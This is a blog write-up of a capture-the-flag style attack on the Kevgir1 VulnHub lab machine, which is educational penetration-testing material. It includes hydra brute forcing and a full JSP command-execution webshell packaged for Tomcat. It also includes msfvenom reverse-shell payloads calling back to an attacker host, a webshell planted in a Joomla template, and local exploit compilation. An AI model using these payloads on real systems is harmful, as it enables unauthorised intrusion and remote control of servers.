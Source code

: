 ```yaml
---
layout: post
title: "vulhub:kevgir1"
date: 2016-05-02 14:42:52 -0500
comments: true
categories: [vulhub]
---
```



From [Vulhub](https://www.vulnhub.com/entry/kevgir-1,137/)

###Tools:

* netdiscover
* Nmap
* hydra
* msfvenom 
* joomscan


<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kevgir1/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.174 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.174 -p-`

{% img  /images/blog/vulhub/kevgir1/Selection_004.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/kevgir1/Selection_002.png   [title manually exploit [alt text]] %}

Let attack ftp now.

`hydra -L ~/tools/SecLists/Usernames/top_shortlist.txt -P ~/tools/SecLists/Passwords/john.txt  -u  -s 25 192.168.79.174 ftp`

get the user name and password

{% img  /images/blog/vulhub/kevgir1/Selection_005.png   [title manually exploit [alt text]] %}

try ssh using same username and password

`ssh -p 1322 admin@192.168.79.174`


FTP attack DONE


Now it is privilege escalation time

`uname -a`, get the result:

{% img  /images/blog/vulhub/kevgir1/Selection_011.png   [title manually exploit [alt text]] %}

`searchsploit 14.04`
{% img  /images/blog/vulhub/kevgir1/Selection_012.png   [title manually exploit [alt text]] %}

try `/linux/local/37292.c`, copy it to /var/www/html/, use wget to download to target machine, then compile it.

`gcc 37292.c -o attack -static`, then run `attack`

{% img  /images/blog/vulhub/kevgir1/Selection_015.png   [title manually exploit [alt text]] %}

failed, now try harder.


In the searchsploit result, there is 39166.c. Lets try this one.

{% img  /images/blog/vulhub/kevgir1/Selection_014.png   [title manually exploit [alt text]] %}


Now let's attack port 8080. Use nikto to scan it first.

`nikto -h 192.168.79.174:8080`

{% img  /images/blog/vulhub/kevgir1/Selection_007.png   [title manually exploit [alt text]] %}

We got the username and password for tomcat manager ... good


log into the manager page and now we can upload webshell....

{% img  /images/blog/vulhub/kevgir1/Selection_008.png   [title manually exploit [alt text]] %}


create webshell(from pentester lab, you may generate it using msfvenom)


```php index.jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>

```

now pack the webshell

```
mkdir webshell
cp index.jsp webshell

cd webshell
jar -cvf ../webshell.war *

```


now upload the webshell.war. After uploading, visit page  `192.168.79.174:8080/webshell/`.

get the shell


{% img  /images/blog/vulhub/kevgir1/Selection_009.png   [title manually exploit [alt text]] %}



Lets use msfvenom to create webshell

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.79.173 LPORT=4444 -f war > webshell1.war`

upload webshell1.war and setup netcat listening on port 4444. After connection is setup. do `python -c 'import pty; pty.spawn("/bin/bash")'`

get the shell

{% img  /images/blog/vulhub/kevgir1/Selection_010.png   [title manually exploit [alt text]] %}

DONE for Tomcat






Now move to port 8081

{% img  /images/blog/vulhub/kevgir1/Selection_016.png   [title manually exploit [alt text]] %}

Its Joomla!.

use tool `joomscan` to scan it

`joomscan -u http://192.168.79.174:8081`


{% img  /images/blog/vulhub/kevgir1/Selection_017.png   [title manually exploit [alt text]] %}


get the version of joomla!

Now find out the vulnerability:

{% img  /images/blog/vulhub/kevgir1/Selection_019.png   [title manually exploit [alt text]] %}

follow the instructions of this vulnerability.



login as admin:

{% img  /images/blog/vulhub/kevgir1/Selection_020.png   [title manually exploit [alt text]] %}


create php reverse shell:

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.79.173 LPORT=6666 -e php/base64 -f raw > shell.php`

In Extension ->Template Manager, edit existing template. Copy the content of the shell.php to it and don't forgot to add <?php and ?>. 

{% img  /images/blog/vulhub/kevgir1/Selection_021.png   [title manually exploit [alt text]] %}


set up the netcat and preview the page. get the shell

{% img  /images/blog/vulhub/kevgir1/Selection_022.png   [title manually exploit [alt text]] %}


now lets try another php webshell

[reverse shell from hacksys team](https://github.com/wg135/webshell-1/blob/master/php/reverseshell-poc.txt)

{% img  /images/blog/vulhub/kevgir1/Selection_023.png   [title manually exploit [alt text]] %}